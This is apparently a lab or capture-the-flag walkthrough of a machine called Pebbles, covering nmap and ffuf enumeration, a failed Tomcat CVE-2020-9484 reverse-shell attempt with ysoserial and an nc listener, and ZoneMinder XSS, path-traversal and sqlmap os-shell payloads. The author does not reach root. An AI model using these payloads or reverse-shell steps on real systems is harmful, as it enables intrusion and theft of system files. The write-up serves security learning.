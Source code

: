 Running our nmap scan we have

```bash
# Nmap 7.94SVN scan initiated Tue Feb 20 12:15:03 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.239.52
Nmap scan report for 192.168.239.52
Host is up (0.13s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 12:17:35 2024 -- 1 IP address (1 host up) scanned in 152.21 seconds
```



Checking the FTP service running on port `21` we currently don't have permissions to connect via anonymous access also no reliable exploit out there



![](https://i.imgur.com/uXTGfJS.png)



Checking port 80/HTTP we have this login page, also viewing page source doesn't seem to give any reliable information


![](https://i.imgur.com/PbqwyR5.png)


![](https://i.imgur.com/6VeTbF2.png)


Checking the port 3305/HTTP we do have a default apache2 web page, seems cool we could run directory bruteforce on this one :P, anyways page-source doesn't contain juicy information also.


![](https://i.imgur.com/jBd4RFR.png)


Running directory bruteforce with `ffuf` looks like we have nothing really to show there



![](https://i.imgur.com/qEwjEui.png)


Checking port 8080/HTTP we do have a tomcat service running on version `9.0`



![](https://i.imgur.com/cp5PuOs.png)



Reading [this](https://github.com/PenTestical/CVE-2020-9484) i was made to understand there is RCE on this version known as `CVE-2020-9484`, let go ahead and see if we can exploit this


Firstly, you need to download and setup `ysoserial`


```bash
cd /opt

sudo git clone https://github.com/frohoff/ysoserial

sudo wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master.jar
```


Then install the script


```bash
git clone https://github.com/PenTestical/CVE-2020-9484 && cd CVE-2020-9484/ ; sudo chmod +x CVE-2020-9484.sh

./CVE-2020-9484.sh --help
```


Then Open the script and replace the IP address as line `13`, with the attacker IP for the reverse shell to work



![](https://i.imgur.com/1VH1YQC.png)



Start up a python server as the script generates a payload to be used in the process of executing our reverse shell


```bash
sudo python3 -m http.server 80
```


Start up your listener also


```bash
nc -nvlp 4444
```


Now run the script with the IP address of the target system you want to attack:


```
./CVE-2020-9484.sh TARGET-IP
```


![](https://i.imgur.com/v02LX1f.png)


Ooops, turns out not to be successful, let enumerate harder :P. Running directory bruteforce on port `80` again with a different word lists, we have a new directory called `/zm`



![](https://i.imgur.com/JoLpYkd.png)



Navigating to the directory on the webpage we have this **Zone Monitor Console** on V1.29.0



![](https://i.imgur.com/Xw2IgGC.png)




Checking for exploits i found this [blog](https://vk9-sec.com/zoneminder-1-291-30-exploitation-multiple-vulnerabilities/) in which all PoC's turned out to be successful, we will look at few though


### **XSS (Reflected)**


Payload -:

```
http://HOST/zm/index.php?view=request&request=log&task=download&key=a9fef1f4&format=texty9fke'<html><head></head><body><script>alert(1)</script></body></html>ayn2h
```


![](https://i.imgur.com/TAmkVIB.png)


### **LFI**

payload


```
http://HOST/zm/index.php?view=file&path=../../../../../../etc/passwd
```



![](https://i.imgur.com/iaUZw5P.png)



### **RCE**



Go ahead and intercept the request of the page with burp suite and save the request to a file as shown below -:


![](https://i.imgur.com/DBUEofV.png)


> Make sure to append `view=request&request=log&task=query&limit=100&minTime=5`


Then go ahead and run `sqlmap` specifying the option that we want a shell



```
❯ sqlmap -r request.txt --dbms mysql --os-shell --data POST
```


Note that this will run for about 10 minutes 😭, Patience!!!, Then you should have a shell


![](https://i.imgur.com/wxRSupR.png)



Running a ping scan we can see our target can truly communicate with us



![](https://i.imgur.com/7BlyjM7.png)

But that is it buddy, yeah that is it, nothing works from here, i have followed walkthroughs for walkthroughs, Nothing works, Normally we are meant to get shell as user `root` from here...



GG



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

